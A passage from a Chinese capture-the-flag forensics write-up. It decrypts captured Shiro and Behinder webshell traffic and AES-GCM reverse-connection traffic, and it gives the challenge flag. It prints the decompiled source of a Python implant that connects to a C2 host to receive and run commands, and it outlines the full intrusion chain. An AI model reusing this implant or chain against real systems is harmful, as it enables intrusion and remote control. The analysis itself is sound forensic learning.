3: len31: b'\xf0\xab\x12\xacM_b\xd9m\n\x89\xb6\x9c\xfa\x96y\xc1\xb7\xccs\xc4\x95\xc8\x8d:{l4@s\x17'
4: len48: b'O\xc3\x83V\xd1\xf4\xef\x7f\xe8\xd0M\xa7=\r\xfb\xc2\xa9TO\xc1VKi\xb0\xfdT\xad\xf8\xdd\xd6K\xc9O\xech\xec\xe1\xf9R\xac\xcd+\xcb\xb3\x82W\x0eu'
5: len43: b'\xa6A\x8e|\x13Z\xb4\xc4\xc7\x8c\x8a\xa2\xae\xe7\x18\xfeoS\x89t|b\xc2;}\x97lU\xd9[_[\x04\x8c\xcd\x9f\x8c\xa4\xfa\xfe\xfd%\x1e'
6: len110: b'JI\xb2\xb6\xbe\xdd1\xdem\xa8\x19\xfe\xa9\xb6\x11\xb10&\xa0\x18\x7f\xa6L6L\x89\xc7\xfd\x9d 0\xf0v\x8b\xdc[\xdc+\xac\x98|\xc9\x9bcj\xa4\xc5_C\x05\x8c\x97\x85\xd6h\xf4\xae\xcayQ\x92\xe2\xd6S\xedg\x99=\xeen\xff\xcd\xce\xaa\x18\x06\xefc\xf5wALj\x8a\xcd\x9f\xf2L\xfd\xeew\x82\xbb\x8e\xf5\x1f\x91#\xf7qb.\x92\xf8\xc7\x97\xbeF\xabr'
7: len105: b'm<n2_\xb02\xa8a\x87\x8b\x8b\xf8b<\xdcH\xed4%\xee\xc4\xa4]5\xad,\xb7P\x1d\x87-QF6*\x0c\xce[`n\xa6fQ\xe9\x0b\t\xb9\xd3\xa8\xf2\x81ps\xc3\xda\x11\x0e\n\xf3\x94\x9f/\n`\x1d\xech\t\xfa$B\xbd\\\xc1\xc0\xe0\x87\x0c\xd0\xb2\x12\xc84$\x94B\xed\x84\xa1\xdd}obr~\xe8c\x95\x9b3a\xe9\xbb\xae'
8: len36: b'\x9a$\x8d\xb4N^\x17\xd4\xe6\xfe:\x16\xb9\xf8G\x07\xe9\\\xa9vd\xf0\x03\x90\x0eh\xf2\xea\xd5\xc7\x1c>\xd2\x1b\xb3W'
9: len31: b'Fq\x05e\x88\x00\x9dZ\xad\x8a\x06\x85\xa2\xe7y\x04\xba\xbb\x05\\V&\x985\x82\\T\xad\x05\x0c>'
cfb:
0: len31: b'b\x7f\x8fa\xf5\xcfp\x04\xbfK\xb6\xd9\x0cl+\xd9\x1b\x10\tAv\xef\xde\xff0\x8cze\xaa\xf9\x9d'
1: len36: b"7\x01\xc0&\xa8\x88\xad5\x1d\xa4\xbd]F\nE{Vq\xcf\xbd#\xbe\x7f'\x8d\x0b\xae\xa1\xc17zk$\xfd\x88\x04"
2: len30: b'S\xa69\xb2w\x99\xffT\x9e\x10\x0cIL\xe8mI\x01\xf7\x96\x9dcp"\xdd\xef\xf1P\xf6me'
3: len31: b')\xf7\x99j5\xa9\xd70\x8e\x81\xda\xb6\x0bSY\xd9G.\x0b`\x83\xae\xf7d\x1f\xe9\xff\x80<@\xa6'
4: len48: b'V\x0f\xfc!w\xc5{\x06\xf7"\xcdQ\x1d\x0b\x11\xe1\xb9\xaa\x1cXE\xe8\r\xc1\x83\x15\xe8\r\ti=K\xa3\n\xe1\xbd\xafy\x83a]\xf6\xb75\xcfb\x86\x03'
5: len43: b'W\x85\xe2{o\x8d\xd4\xa3\xdaU^\xdb\xa1\x0bR\x03]\xd9\xf0,$Uv&\x16\r\xab\xd3\xc9\x0c \x91\xbe_CD\xcaza\xafv\x98O'
6: len110: b'\x10Nv\x1c\x0b\xc3B\xc3dh\x1e\xffq.\xab\x94\xf0\xa5\xec\xa3r"\n[\r\x98{\xd8\xa0Y\xd0\xf3\x0b\xe9\xa2C\x01\xaf&`r\xb4\x199\xb6\x93u\x039#\x99\xfb\x03\x83\xd1\xc4\x82\xceV\x91\xd3\xe2\xfbt9\x02\xacz\x86\xaaF\x12u\x9d0\xd9OAS\xfe\x00td\x9e\x16X\xd4\xbf\xb1:\xbb\x94\x13^/\x132~\xb5s\xc0\xef\x1f\xa6q|\xf3\xd2s\xa2'
7: len105: b'\x8fG\x13\xb5L\xe8\xa0\x17\x17\xd2!Uv\xd5\xf4\xd2^\x8a\x05\xe8K>\xb0\xfb\x9d\x8cXQ0\xce3\x9a\x1at\xa9\t\x97Ol\x91{v\xc8\xab\xe8\xbc4\xd1\x16\x1d\x89QX\x87Tu$\x11B\xb7\xb91\xb0n\x13p:F\x9dQ\xbbP$\n\xd9x\xe4\x16\x97\xf2/\xdb"Hm\xf1\x9eG\r\xe3t\xd8\xfa\xc4VKM\xca\x1d&*\x8e\x01(W'
8: len36: b'\x91\x16\xe4x \x12\x9f"\xcbg!G\xa0N\x18\x17<M\xb6\xb9(\xd2\x8f\x17\x1b\xb4c\x06\x0e9\xbd\xef\xa7\xf4\x15\x88'
9: len31: b'\xc8\xff\xb1\xee\x85]\xcflG\xf1\xd9\xb3O\xf1$tZX\xc5k\xdc\x81G\x18\xef:\x8c\x95\xd99\xf5'
iv:key[:16]s
ctr:
0: len31: b'\xb6\xcd\x88\xa9\xd5l\xe4`\xb0E\x00u)\xcf?\xa3\x86\xdf\xd4\xb0\x90=\xfe\xd3\xd58\x13)\xc5\x0e,'
1: len36: b'B\x1c"\xb0\xfd\xd8-\xe6\x99\xc9\xf76(\x93E\xa8\x06\xd2\xefg(4\xa0\xb8\xf2\xd6\x97\x08C\xd9e\x01*\x8au\xf6'
2: len30: b"\xe3\xcb\x99\x98'\x7f \xfa\x80\x14Y>}p\x00\xca\xd5C\xf0\xb7wuw\xec\xab\xb5\x9c\xfd\n<"
3: len31: b'$\xe5\xc9.\xbb\xceC\xacF\t\xde7\\\x96\xd1\xc7\xdf#\x87\xfd\xe31\x81<\xa4\x8d\x9f\xbd\x070\xbf'
4: len48: b'\xd7\xf2x"\x87M{\xf5y\x8d7\xed\xfb\x8c[UC@?\xd2\x08\xb0\x0b5E\x05/\xe8\xd80s\xfa\xb0N\xd4\xc6\x14\xc4\xb4^y\x0c\xa3-\x1e\x00I\x03'
5: len43: b"\xbb\x8a\xdf'f\xe0-\x98\x96%-\xdb>W\xaaS=R\xc3\xa6W\xf6{\x138\x86\xecGzO\xad(\xfdn#i\x9a\x9b\xb4\xb9%+5"
6: len110: b'0\xf8D\xf0%\x9eb\x128\xd5mB\xe3z\xfe\xaf\xaa\xbe!\x1c\xbf XUV|>\x87\x0bBCu\x12O\x98^,+\xeb\xffl\x80\x88\x8f\xe8\xfe\xa8\xb9f\xa1\x93\x94\x13\xfe\xc7\xa98\xa8\x8a\x10\xae\xa1\xe7bC\xa6J\x99\xd7JR\x85\xa5\n_\xb0\xbf\xa6D\xc8S\x00ae@"\x01\xb1\x8a\x16\xd4WY\x16,7\xa4_\xa0\xe3\xaei\x02H\x02\xe9u\xc1\x86.'
7: len105: b"\xe8\xe4\xe5'5Z\xbd\xdfo\x89\xcf\x8c\xe2\xda\x10\x86Y\xfd\xa2\x92\x18r\xea\xa1\x15\x9an\x13\xec\x89F\x93\xbb\x9a]d>\x02\x85\xccj\xf8\x97\xc9\x18\x00\xf2\x06\x1bB.\x96\xc0\xf6\xdf~\xee\x17\x8e\xcaiH\xdb\xf8\x98\xb9}\xd5x\x93M\xa1\x00\xb2f\xfc\xc7X'I\xd1$\x03A\xd2Z\xaah\xc5Q>\x05\xe1*\xeehS\xe4\xe0\xe7`\xf0l\xa6\x01"
8: len36: b"8\x01A\xe1\xea<O\x81{2\xdaw\xa6\xc6\x83uP'\x87F\xe0\x7f\xdd\xbd\x00\xdd{\xc1#\x98Ay\xce\xbe\xebb"
9: len31: b'\xb0\x94cs\xdfd\xbb\xc0E\xa9\x88F(\t}\x82\x92\xf7\x90g\xe82\x85\xf7r\xa3M\x0f\xc6\xa1.'
cfb:
0: len31: b'\xb6\xcd\x88\xa9\xd5l\xe4`\xb0E\x00u)\xcf?\xa3\x1b\x10\tAv\xef\xde\xff0\x8cze\xaa\xf9\x9d'
1: len36: b"7\x01\xc0&\xa8\x88\xad5\x1d\xa4\xbd]F\nE{Vq\xcf\xbd#\xbe\x7f'\x8d\x0b\xae\xa1\xc17zk$\xfd\x88\x04"
2: len30: b'S\xa69\xb2w\x99\xffT\x9e\x10\x0cIL\xe8mI\x01\xf7\x96\x9dcp"\xdd\xef\xf1P\xf6me'
3: len31: b')\xf7\x99j5\xa9\xd70\x8e\x81\xda\xb6\x0bSY\xd9G.\x0b`\x83\xae\xf7d\x1f\xe9\xff\x80<@\xa6'
4: len48: b'V\x0f\xfc!w\xc5{\x06\xf7"\xcdQ\x1d\x0b\x11\xe1\xb9\xaa\x1cXE\xe8\r\xc1\x83\x15\xe8\r\ti=K\xa3\n\xe1\xbd\xafy\x83a]\xf6\xb75\xcfb\x86\x03'
5: len43: b'W\x85\xe2{o\x8d\xd4\xa3\xdaU^\xdb\xa1\x0bR\x03]\xd9\xf0,$Uv&\x16\r\xab\xd3\xc9\x0c \x91\xbe_CD\xcaza\xafv\x98O'
6: len110: b'\x10Nv\x1c\x0b\xc3B\xc3dh\x1e\xffq.\xab\x94\xf0\xa5\xec\xa3r"\n[\r\x98{\xd8\xa0Y\xd0\xf3\x0b\xe9\xa2C\x01\xaf&`r\xb4\x199\xb6\x93u\x039#\x99\xfb\x03\x83\xd1\xc4\x82\xceV\x91\xd3\xe2\xfbt9\x02\xacz\x86\xaaF\x12u\x9d0\xd9OAS\xfe\x00td\x9e\x16X\xd4\xbf\xb1:\xbb\x94\x13^/\x132~\xb5s\xc0\xef\x1f\xa6q|\xf3\xd2s\xa2'
7: len105: b'\x8fG\x13\xb5L\xe8\xa0\x17\x17\xd2!Uv\xd5\xf4\xd2^\x8a\x05\xe8K>\xb0\xfb\x9d\x8cXQ0\xce3\x9a\x1at\xa9\t\x97Ol\x91{v\xc8\xab\xe8\xbc4\xd1\x16\x1d\x89QX\x87Tu$\x11B\xb7\xb91\xb0n\x13p:F\x9dQ\xbbP$\n\xd9x\xe4\x16\x97\xf2/\xdb"Hm\xf1\x9eG\r\xe3t\xd8\xfa\xc4VKM\xca\x1d&*\x8e\x01(W'
8: len36: b'\x91\x16\xe4x \x12\x9f"\xcbg!G\xa0N\x18\x17<M\xb6\xb9(\xd2\x8f\x17\x1b\xb4c\x06\x0e9\xbd\xef\xa7\xf4\x15\x88'
9: len31: b'\xc8\xff\xb1\xee\x85]\xcflG\xf1\xd9\xb3O\xf1$tZX\xc5k\xdc\x81G\x18\xef:\x8c\x95\xd99\xf5'
```


最后尝试到GCM发现可能性很大，首先前两个发送的指令长度分别是$\frac{62}{2}=31$个字符和$\frac{60}{2}=30$个字符，如果对应前面发现的测试时惯用的指令`pwd`和`ls`，能够对应上剩下28个固定字符，符合GCM的特征。尝试使用GCM解密：
```python
import base64
import binascii
from Crypto.Cipher import AES

key = base64.b64decode("IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs=")

hex_str = """
1f000000
33740a2c22b1e703d2f1480b321f3e4cdc8eb50da84ca0a76543b6bbadf60a
24000000
5c8a2365d717d71114b7be5599d5cfff553f2f0b2251505c3f5ada10a77be1bf35852f9c
1e000000
e3ee79aaf91b813d407e18095278046d32c10567fe57d60459d32f6df234
1f000000
bd345efc1465b04f38a410a09ed999e9849a570c27dd75e8d6b8aac5a4f22f
30000000
be53ef2dc360548f22bd7145f4e1733ffeb228db69b28e76ccb65ea9d8e33a709cfae6579a795f4045dbc2f6300cd871
2b000000
2b7991ad1cfcb2c0b334f5ee5cfb1be844f232c5062190e5e7bfb2208ef40aec6cff1aa7df01285fd3a92a
6e000000
8ac33897541bf959bb223309ffa07a25c49245bb988404180f84d7baef2c2ca8dfd669d39d3fa9c9e66b3da81834c7121cad53ffb16b38dcb062b2b3ce1b634f3bac9ed6e161661efb67ab754eb078718c484cb1b9ec873a103035fdc0b28ed418aa11e68b561599b9685ae54b95
69000000
5fb656ee12487f33e75202b3bec1a6728977618d6b221fb887fa90d36cb5ff75949c1ae90608e22fc81a12fb2e576dd2df4330fcbf619b19455dcfe6c9ae2a8e730cf9010dcc3a15f04bec1fa70b051792d4e197cee0f075405b366472711d1d94f5bb349348bf05d5
24000000
410d930f46d9e71c2200eb1fc4ec9986fd2d72ab2c35aa85fe66fa664a3729e3e9a906b6
1f000000
7ccb9636b4b330000914519540b5a3b0bacb6f594c3b03ff582d62084c1af4
""".replace('\n', '').replace(' ', '')

data = binascii.unhexlify(hex_str)

i = 0
chunk_idx = 0
while i < len(data):
    length = int.from_bytes(data[i:i+4], 'little')
    i += 4
    
    chunk = data[i:i+length]
    i += length
    
    nonce = chunk[:12]
    ciphertext = chunk[12:-16]
    tag = chunk[-16:]
    
    cipher = AES.new(key, AES.MODE_GCM, nonce=nonce)
    plaintext = cipher.decrypt_and_verify(ciphertext, tag)
    print(f"{chunk_idx}: len{len(plaintext)}: {plaintext}")
        
    chunk_idx += 1
```
得到：
```plain
0: len3: b'pwd'
1: len8: b'/var/tmp'
2: len2: b'ls'
3: len3: b'out'
4: len20: b'echo Congratulations'
5: len15: b'Congratulations'
6: len82: b'echo 3SoX7GyGU1KBVYS3DYFbfqQ2CHqH2aPGwpfeyvv5MPY5Dm1Wt9VYRumoUvzdmoLw6FUm4AMqR5zoi'
7: len77: b'3SoX7GyGU1KBVYS3DYFbfqQ2CHqH2aPGwpfeyvv5MPY5Dm1Wt9VYRumoUvzdmoLw6FUm4AMqR5zoi'
8: len8: b'echo bye'
9: len3: b'bye'
```
将`3SoX7GyGU1KBVYS3DYFbfqQ2CHqH2aPGwpfeyvv5MPY5Dm1Wt9VYRumoUvzdmoLw6FUm4AMqR5zoi`丢进CyberChef，Base58+Base64解密后得到Flag：`dart{d9850b27-85cb-4777-85e0-df0b78fdb722}`


----
后续在尝试完整提取并逆向其中分片上传的二进制，因为发现payload本身有个`blockIndex`，用于索引当前是第几部分。
让AI写了个完整逆向分析Java class并寻找索引和内容并拼接输出的脚本：
```python
import os
import re
import base64
import subprocess
import concurrent.futures
from Crypto.Cipher import AES

# --- 配置区 ---
KEY = b"1f2c8075acd3d118"
DIR = "export"               # Wireshark 导出的 HTTP 对象所在文件夹
OUTPUT = "real_out.elf"        # 最终合并生成的文件
CFR_JAR_PATH = "cfr.jar" # 替换为你下载的 cfr.jar 的实际文件名
MAX_WORKERS = 16               # 线程数：你可以根据 CPU 核心数调大，比如 16、32

def decrypt_to_class(data):
    try:
        cipher = AES.new(KEY, AES.MODE_ECB)
        dec = cipher.decrypt(base64.b64decode(data))
        return dec[:-dec[-1]]
    except Exception:
        return b""

def decompile_and_extract(class_file_path):
    try:
        result = subprocess.run(
            ['java', '-jar', CFR_JAR_PATH, class_file_path],
            capture_output=True,
            text=True,
            check=True
        )
        source_code = result.stdout
        
        index_pattern = r'blockIndex\s*(?:\+?=|=\s*(?:this\.)?blockIndex\s*\+)\s*"(\d+)"'
        content_pattern = r'content\s*(?:\+?=|=\s*(?:this\.)?content\s*\+)\s*"([A-Za-z0-9+/=]+)"'
        
        index_match = re.search(index_pattern, source_code)
        content_match = re.search(content_pattern, source_code)
        
        if index_match and content_match:
            return int(index_match.group(1)), content_match.group(1)
            
    except Exception as e:
        pass
    
    return None, None

def process_single_file(fname):
    """
    单个线程执行的任务：读取、解密、写临时文件、反编译、提取、清理临时文件
    """
    path = os.path.join(DIR, fname)
    with open(path, "rb") as f:
        body = f.read().strip()
        
    java_class_bytes = decrypt_to_class(body)
    
    if java_class_bytes.startswith(b"\xca\xfe\xba\xbe"):
        # 确保每个线程的临时文件名唯一，防止冲突
        temp_class = f"temp_{fname}.class"
        with open(temp_class, "wb") as f:
            f.write(java_class_bytes)
        
        block_idx, content_b64 = decompile_and_extract(temp_class)
        
        # 清理临时文件
        if os.path.exists(temp_class):
            os.remove(temp_class)
        
        if block_idx is not None and content_b64 is not None:
            try:
                actual_chunk = base64.b64decode(content_b64)
                return block_idx, actual_chunk, fname
            except Exception as e:
                return None, f"解码异常: {e}", fname
                
    return None, "无效的 Class 或解密失败", fname

def main():
    files = [f for f in os.listdir(DIR) if os.path.isfile(os.path.join(DIR, f))]
    print(f"[*] 找到 {len(files)} 个文件。启动 {MAX_WORKERS} 个线程疯狂反编译中...")

    chunks_dict = {}

    # 启动线程池
    with concurrent.futures.ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
        # 提交所有任务
        future_to_file = {executor.submit(process_single_file, fname): fname for fname in files}
        
        # as_completed 会在某个线程完成时立刻 yield，可以实时看到进度
        for future in concurrent.futures.as_completed(future_to_file):
            block_idx, result_data, fname = future.result()
            
            if block_idx is not None:
                chunks_dict[block_idx] = result_data
                print(f"[+] {fname} -> 提取成功: 块索引 [{block_idx}]")
            elif "无效" not in result_data:
                # 过滤掉非目标流量的报错干扰，只打印真的出错了的
                print(f"[-] {fname} -> 提取失败: {result_data}")

    if not chunks_dict:
        print("\n[-] 未提取到任何有效数据块。")
        return

    print(f"\n[*] 所有 {len(chunks_dict)} 块提取完毕。开始按 blockIndex 精准重组...")
    
    sorted_indices = sorted(chunks_dict.keys())
    
    with open(OUTPUT, "wb") as f:
        for idx in sorted_indices:
            print(f"[*] 写入块索引 [{idx}]")
            f.write(chunks_dict[idx])
            
    print(f"[!] 完美重组完成！生成文件：{OUTPUT}")

if __name__ == "__main__":
    main()
```
发现是一个Pyinstaller打包的elf。解压，逆向其中的`inspect.pyc`，得到：
```python
# Visit https://www.lddgo.net/string/pyc-compile-decompile for more information
# Version : Python 3.9

import os
import socket
import struct
import subprocess
import argparse
import settings
import base64
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
SERVER_LISTEN_IP = '10.1.243.155'
SERVER_LISTEN_PORT = 7788
IMPLANT_CONNECT_IP = '10.1.243.155'
IMPLANT_CONNECT_PORT = 7788
SERVER_LISTEN_NUM = 20
_aesgcm = None

def set_aes_key(key_b64 = None):
    global _aesgcm
    key = base64.b64decode(key_b64)
    if len(key) not in (16, 24, 32):
        raise ValueError('AES 密钥长度必须为 16, 24 或 32 字节（对应 128, 192, 256 位）')
    _aesgcm = None(key)


def encrypt_data(data = None):
    if _aesgcm is None:
        raise RuntimeError('AES 密钥未初始化，请先调用 set_aes_key()')
    nonce = None.urandom(12)
    ciphertext = _aesgcm.encrypt(nonce, data, None)
    return nonce + ciphertext


def decrypt_data(encrypted_data = None):
    if _aesgcm is None:
        raise RuntimeError('AES 密钥未初始化，请先调用 set_aes_key()')
    if None(encrypted_data) < 28:
        raise ValueError('加密数据太短，无法包含 nonce 和认证标签')
    nonce = None[:12]
    ciphertext_with_tag = encrypted_data[12:]
    plaintext = _aesgcm.decrypt(nonce, ciphertext_with_tag, None)
    return plaintext


def exec_cmd(command, code_flag):
    command = command.decode('utf-8')
# WARNING: Decompyle incomplete


def send_data(conn, data):
    if type(data) == str:
        data = data.encode('utf-8')
    encrypted_data = settings.encrypt_data(data)
    cmd_len = struct.pack('i', len(encrypted_data))
    conn.send(cmd_len)
    conn.send(encrypted_data)


def recv_data(sock, buf_size = (1024,)):
    x = sock.recv(4)
    all_size = struct.unpack('i', x)[0]
    recv_size = 0
    encrypted_data = b''
    if recv_size < all_size:
        encrypted_data += sock.recv(buf_size)
        recv_size += buf_size
        continue
    data = settings.decrypt_data(encrypted_data)
    return data


def main():
    sock = socket.socket()
    sock.connect((settings.IMPLANT_CONNECT_IP, settings.IMPLANT_CONNECT_PORT))
    code_flag = 'gbk' if os.name == 'nt' else 'utf-8'
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    parser = argparse.ArgumentParser('', **('description',))
    parser.add_argument('--aes-key', True, '', **('required', 'help'))
    args = parser.parse_args()
    settings.set_aes_key(args.aes_key)
    main()
```
也证明了猜想，确实是GCM  
（不过这一看就是ai出的罢）

--- 
# 梳理
完整的链条应该是这样的：



- **阶段一：Shiro 漏洞利用与 RCE 验证**
    - 攻击者通过发送包含 `rememberMe` Cookie 的 GET 请求，成功爆破出 Apache Shiro 的 AES 密钥。
    - 随后，攻击者利用 `Authorization` 头传递加密命令，Web 服务器执行了 `whoami` 等命令，并返回了 Base64 加密的执行结果 `root`。
        
- **阶段二：植入内存 WebShell 与初步控制**
    - 攻击者向 `/` 路径发送携带 Java 类的 POST 请求，成功注入冰蝎（Behinder）内存马，并将 C2 通信信道建立在 `/favicondemo.ico` 路径上。
    - 攻击者通过该信道下发经过 AES 加密的 Java Class，利用 Web 服务层读取了底层系统的环境变量、IP 信息（`172.18.0.2`），并执行了基础系统命令（如 `ps -ef`）。

- **阶段三：恶意木马上传与落地执行**    
    - 攻击者通过 WebShell，利用 `blockIndex` 和 `blockSize` 参数将一个 ELF 二进制文件分片追加写入到系统的 `/var/tmp/out` 路径下，并进行了 Hash 校验（`a0275c1593af1adb`）。
    - 攻击者下发 Shell 命令 `chmod +x out` 赋予文件执行权限，并通过 `./out --aes-key ...` 在底层系统运行了该木马。
    
- **阶段四：TCP 反连获取 Flag**
    - 底层的 Python 恶意木马运行后，直接绕过 Web 层面，主动向攻击者的 C2 服务器（`10.1.243.155:7788`）发起 TCP 连接。
    - 双方切换至 AES-GCM 算法进行通信，攻击者下发 `pwd`、`ls`、`echo Congratulations` 等远控指令，并在最终的回包中获取到了 Flag。


总的来说还是挺有意思（？  
